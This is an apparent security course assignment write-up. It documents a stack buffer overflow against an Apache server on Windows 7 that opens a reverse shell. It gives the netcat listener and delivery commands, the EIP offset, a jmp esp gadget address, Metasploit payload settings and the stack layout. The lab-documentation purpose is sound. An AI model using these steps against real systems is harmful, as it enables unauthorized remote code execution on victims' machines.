


# Assignment 2 Documentation

### Written By: Chuck Zumbaugh
### Collaborators: None

## Running the exploit
The exploit is configured to generate a reverse shell for a listener on port 8888 at 192.168.219.134. To run the exploit, ensure the attacking machine is listening on the appropriate port:
```
nc -l -p 8888 -nvv
```
Then the exploit can be run by piping the executed script to the victim machine Apache server:
```
perl exploit_apache.pl | nc <victim_address> 80
```
*Note that the Apache server is listening on port 80.*

## Objective and description of the exploit
The objective of this exploit is to execute a buffer overflow attack on a Windows machine running an Apache web server. The Windows machine supports ASLR, and in particular randomizes the addresses of the stack, so we cannot rely on knowing the stack addresses in advance. Therefore, we use a return to libc attack to redirect execution to an area on the stack containing our code. Rather than placing the shell code at a known address above the EIP, it will be placed just after the saved EIP. The EIP will be overwritten by the address of a `jmp esp` instruction, which when executed, will begin executing the malicious code.

## Determining the length of the buffer
The length of the buffer was determined by sending a string of sufficient length to the Apache server to crash it and gather debug data. Metasploit was used to generate a string of 5,000 bytes using `msf-pattern_create -l 5000`. The WinDbg debugger was attached to the Apache process and the string was sent to the server, causing a segmentation fault. When this occurred the EIP was 67463467, which corresponds to an offset of 4,093 bytes. Thus, if we send a string of length 4,097 bytes we can overwrite the EIP with the last 4 bytes.

## Finding a `jmp esp` instruction
Modules loaded by Apache were searched for a `jmp esp` instruction in WinDbg using `s <start_address> L? <length_to_search> ff e4`. Since Windows 7 supports ASLR, only modules without ASLR or DEP were searched. A `jmp esp` instruction was found in `mod_w1_20` at location `0x1005bc0f`, which does not contain any null bytes and can thus be used in the payload.

## Generating the payload
Metasploit was used to generate shell code for a reverse shell using `payload/windows/shell_reverse_tcp` with the `x86/alpha_mixed` encoder, `LHOST=192.168.219.134`, and `LPORT=8888`. A NOP sled was used to cover the length of the offset, though since we are not redirecting execution here, any non-null byte sequence would work. The address of the `jmp esp` instruction was placed to overwrite the EIP, and this was followed by a small NOP sled of 20 bytes. This smaller NOP sled is used because 1) the caller will clear the arguments after the function returns so we cannot place the shell code directly after the EIP, and 2) to make the exploit more reliable when it is run by providing a small margin or error. To prevent the decoder from corrupting itself during execution, we also place an instruction to add -200 to the current ESP, effectively moving it out of the way of the payload. Finally, the payload is placed just after this instruction. Thus, the stack is set up in a manner similar to the below figure.

|                                     |                                   |
| :---------------------------------: | :-------------------------------: |
| Lower memory addresses              |                                   |
| ...                                 | NOP sled (4,093 bytes)            |
| EIP                                 | `\x0f\xbc\x05\x10` (`jmp esp` address) |                  |
| EIP + 4                             | `\x90`                              |
| ...                                 | `\x90`                              |
| EIP + 20                            | `\x90`                              |
| EIP + 24                            | `\x81\xc4\x38\xff\xff\xff` (`add -200, esp`) |          |
| ...                                 | Shellcode                         |
| Higher memory addresses             |                                   |




